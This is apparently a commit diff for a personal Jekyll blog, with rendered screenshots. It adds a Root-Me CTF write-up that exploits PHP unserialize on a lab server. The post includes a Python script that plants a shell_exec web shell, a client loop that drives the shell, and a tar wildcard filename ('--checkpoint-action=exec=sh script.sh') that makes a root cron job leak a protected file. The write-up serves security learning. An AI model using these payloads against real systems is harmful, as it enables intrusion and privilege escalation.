

Before and after one commit to nobe4/nobe4.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 5037 px. Shown: the whole window at 88% size, without its empty margins (0-1078 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; some of the changed text lies outside the part shown.

Commit message:
Update config and add ctf writeup
Also fix the golfed dragon's curve

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -29,13 +29,13 @@ owner:
 background:
 
 # Analytics and webmaster tools stuff goes here
-# google_analytics:
+google_analytics: UA-57774120-4
 # google_verify:
 # https://ssl.bing.com/webmaster/configure/verify/ownership Option 2 content= goes here
 # bing_verify:
 
 # http://en.wikipedia.org/wiki/List_of_tz_database_time_zones
-timezone:    Europe/Paris
+timezone:    Europe/London
 future:      true
 highlighter: pygments
 markdown:    kramdown
--- /dev/null
+++ b/_posts/posts/2016-11-19-root-me-random-dev-pipe.markdown
@@ -0,0 +1,219 @@
+---
+layout: post
+title: "/dev/random: Pipe"
+modified: 18 Nov 2016
+categories: posts
+tags: [CTF, security, RootMe]
+comments: true
+share: true
+date: Sat Nov 19 10:32:26 CET 2016
+---
+
+Writeup by [npny](https://github.com/npny) and [nobe4](https://github.com/nobe4).
+
+Firstly, we run `nmap` against the website, to discover that (among others), the ports 80 and 22 are open.
+
+`SSH` doesn't yield any results, and we try, without luck, a possible exploit against the used version.
+
+`HTTP` is a lot more interesting:
+
+An HTTP password is asked when trying to access the main page. After a few random try on the different [`HTTP` verbs](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) we try to access the default `index.php` file, which seems to have the same security. But, making a `POST` request on the file returned a valid `HTML` page. Nice!
+
+We can see in this web page a some useful information:
+
+- there is a javascript file in the subdirectory `scriptz`
+- there is an image in the subdirectory `images`
+
+Both directories are not protected and can be accessed and listed.
+
+Moreover, it seems that the file has a link that make a `POST` request and display some information on painters. One crucial note is that the `POST` request is made using a serialize function that (after study) serialize a javascript object into a format that `PHP` can unserialize. A copy of the script can be found [here](http://locutus.io/php/var/serialize/).
+
+The information sent to the server is an object `Info`.
+
+The `images` contains only the image of [La trahison des images](https://en.wikipedia.org/wiki/The_Treachery_of_Images), a famous painting by [René Magritte](https://en.wikipedia.org/wiki/Ren%C3%A9_Magritte). Nothing more here.
+
+The `scriptz` folder contains the `php.js` script as well as a `log.php.BAK` file.
+
+{% highlight php %}
+<?php
+class Log
+{
+    public $filename = '';
+    public $data = '';
+
+    public function __construct()
+    {
+        $this->filename = '';
+        $this->data = '';
+    }
+
+    public function PrintLog()
+    {
+        $pre = "[LOG]";
+        $now = date('Y-m-d H:i:s');
+
+        $str = '$pre - $now - $this->data';
+        eval("\$str = \"$str\";");
+    }
+
+    public function __destruct() {
+      file_put_contents($this->filename, $this->data, FILE_APPEND);
+    }
+}
+?>
+{% endhighlight %}
+
+
+It seems that this file define a simple logging class in PHP. We are not sure what to do with yet...
+
+But, we can combine this class and use it instead of the `Info` one in the `POST` request. Using the following script:
+
+{% highlight python %}
+
+import requests
+
+#  original info object
+#  payload = 'O:4:"Info":4:{' \
+        #  + 's:2:"id";'\
+        #  + 'i:1;'\
+        #  + 's:9:"firstname";'\
+        #  + 's:4:"Rene";'\
+        #  + 's:7:"surname";'\
+        #  + 's:8:"Margitte";'\
+        #  + 's:7:"artwork";'\
+        #  + 's:23:"The Treachery of Images";'\
+        #  + '}'
+
+# new Log payload
+payload = 'O:3:"Log":2:{' \
+        + 's:8:"filename";'\
+        + 's:27:"/var/www/html/scriptz/b.php";'\
+        + 's:4:"data";'\
+        + 's:39:"<?php echo shell_exec($_GET["cmd"]); ?>";'\
+        + '}'
+
+data = { 'param': payload }
+
+r = requests.post("http://ctf01.root-me.org/index.php", data=data)
+print r.content
+
+{% endhighlight %}
+
+
+What will happen here is the following:
+
+- The `Log` string will be `unserialize`d by the PHP server script.
+- During this step, the `filename` and `data` fields will be saved to a set of defined values.
+- When the object is destroyed, the content of `data` will be written in the file `filename`.
+
+We had to figure out the directory to use. After some research, we figured out the [default `Apache` folder](http://askubuntu.com/a/684030/399788) is used.
+
+The payload is a simple web shell and will be placed in the folder `scriptz`.
+
+Now, we must find something to do with this shell, first of, the following script enhance the usage of the web shell:
+
+
+{% highlight python %}
+import requests
+
+base = 'http://ctf01.root-me.org/scriptz/b.php'
+
+while True:
+    r = requests.get(base, params = {'cmd': cmd})
+    print r.content
+    cmd = raw_input('> ')
+{% endhighlight %}
+
+This very simple script will get the web page, passing the command as a `GET` argument and display the result.
+
+We immediately check for the `/passwd` file, which is, unfortunately, accessible only by the root user.
+
+After some time looking around, we can see that the files in `/home/rene/backups` are constantly updated. It seems that a backup file is created every minute, and every 5 minutes the 5 backups are compressed together.
+
+Checking the `/etc/crontab` file confirm this, two scripts are running, both as root, this could be the way to leverage the `passwd` file.
+
+{% highlight bash %}
+
+# /etc/crontab: system-wide crontab
+# Unlike any other crontab you don't have to run the `crontab'
+# command to install the new version when you edit this file
+# and files in /etc/cron.d. These files also have username fields,
+# that none of the other crontabs do.
+
+SHELL=/bin/sh
+PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
+
+# m h dom mon dow user	command
+17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
+25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
+47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
+52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
+#
+* * * * * root /root/create_backup.sh
+*/5 * * * * root /usr/bin/compress.sh
+
+{% endhighlight %}
+
+A detail that is interesting, is that both scripts are run as root, but one of them is readable:
+
+{% highlight bash %}
+
+#!/bin/sh
+
+rm -f /home/rene/backup/backup.tar.gz
+cd /home/rene/backup
+tar cfz /home/rene/backup/backup.tar.gz *
+chown rene:rene /home/rene/backup/backup.tar.gz
+rm -f /home/rene/backup/*.BAK
+
+{% endhighlight %}
+
+The interesting part of the script is the line:
+
+{% highlight bash %}
+tar cfz /home/rene/backup/backup.tar.gz *
+{% endhighlight %}
+
+Indeed, there is a _vulnerability_ concerning this `*`. If a file or a directory is name like a flag, the command that use the `*` will treat the filename as a flag.
+
+As an example:
+
+{% highlight bash %}
+$ touch a b c -la
+$ ls
+a b c -la
+$ ls *
+-rw-r--r--  1 user  group  0 Nov 17 18:23 a
+-rw-r--r--  1 user  group  0 Nov 17 18:23 b
+-rw-r--r--  1 user  group  0 Nov 17 18:23 c
+{% endhighlight %}
+
+This issue is discussed in [this paper](https://www.exploit-db.com/papers/33930/).
+
+Now the command that need to be exploited is `tar`, its man page (and the previous paper) gives us the next step:
+
+{% highlight bash %}
+--checkpoint-action=exec=<command>
+{% endhighlight %}
+
+We now need to find the command we want to execute.
+
+To make this step easier, we decided to use a script file on the server to that will be run by root, we thus need to create a file named:
+
+{% highlight bash %}
+--checkpoint-action=exec=sh shell.sh
+{% endhighlight %}
+
+Of course, the space in the filename has to be escaped, otherwise the execution will only run `sh`:
+
+{% highlight bash %}
+touch home/rene/backup/--checkpoint-action=exec=sh\ script.sh
+{% endhighlight %}
+
+The script.sh will contain the following code, which copy the content file into an accessible file, and will change the permission on it, so that anyone can read it:
+
+{% highlight bash %}
+cat /passwd > /var/www/html/scriptz/passwd && chmod a+r /var/www/html/scriptz/passwd
+{% endhighlight %}
+
+Then we just need to check the file from the browser and we get the flag.
```
Also changed, not shown: _posts/posts/2016-06-26-golfed-dragon-curve.markdown (+7 -6 lines).
